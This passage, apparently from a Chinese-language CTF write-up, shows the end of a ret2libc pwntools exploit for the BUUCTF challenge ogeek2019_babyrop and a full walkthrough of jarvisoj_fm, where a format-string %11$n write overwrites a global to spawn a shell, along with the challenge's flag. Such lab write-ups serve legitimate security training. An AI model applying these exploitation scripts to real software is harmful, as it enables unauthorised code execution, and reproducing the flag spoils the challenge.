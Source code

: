 ```python
log.success('write_address => 0x%x', write_address)
libc = ELF('./libc-2.23.so')
libcbase = write_address - libc.symbols['write']
info('libcbase_address => 0x%x', libcbase)
system_address = libcbase + libc.symbols['system']
log.success('system_address => 0x%x', system_address)
bin_sh_address = libcbase + libc.search(b'/bin/sh').__next__()
log.success('bin_sh_address => 0x%x', bin_sh_address)
io.sendline(b'\x00'.ljust(8, b'\xff'))
payload = b'a'*0xe7 + b'pwn!'
payload += flat(system_address, 0xdeadbeef, bin_sh_address)
io.sendlineafter(b'Correct\n', payload)
io.interactive()
```

![](https://paper.tanyaodan.com/BUUCTF/ogeek2019_babyrop/6.png)

------

### [jarvisoj_fm](https://buuoj.cn/challenges#jarvisoj_fm)

先`file ./jarvisoj_fm`查看文件类型再`checksec --file=./jarvisoj_fm`检查一下文件保护情况。

![](https://paper.tanyaodan.com/BUUCTF/jarvisoj_fm/1.png)

用`IDA Pro 32bit`打开附件`jarvisoj_fm`，按`F5`反汇编源码并查看主函数，可以看到声明了一个可用栈大小为`0x5C`字节的`char`型变量`buf`，`read()`函数从`stdin`中读取了`0x50`字节数据到变量`buf`中。接着出现了一个明显的格式化字符串漏洞，

![](https://paper.tanyaodan.com/BUUCTF/jarvisoj_fm/2.png)

双击变量`x`查看其在内存中的地址信息为`0x804A02C`。

![](https://paper.tanyaodan.com/BUUCTF/jarvisoj_fm/3.png)

第10行的`printf()`其地址信息为`0x80485AD`，我们可以在这里设置一个断点。

![](https://paper.tanyaodan.com/BUUCTF/jarvisoj_fm/4.png)

`run`运行程序，输入多个`a`字符。

![](https://paper.tanyaodan.com/BUUCTF/jarvisoj_fm/5.png)

`x/16wx $esp`的意思是以`16`进制查看`$esp`寄存器的参数信息，`a`的`ACSII`码的`16`进制是`0x61`，我们可以看到赋值参数在第`11`位。接着我们利用`x`的地址配合上`%11$n`将`x`的值修改为`4`，即可让程序系统调用`/bin/sh`终端从而拿到`flag`。

![](https://paper.tanyaodan.com/BUUCTF/jarvisoj_fm/6.png)

编写`Python`代码即可得到`flag{0516c5fb-3bf9-4ea8-a3ae-db6489a1db76}`。

```python
from pwn import *

io = remote('node4.buuoj.cn', 29158)
x_addr = 0x804A02C
payload = p32(x_addr) + b'%11$n'
io.sendline(payload)
io.interactive()
```

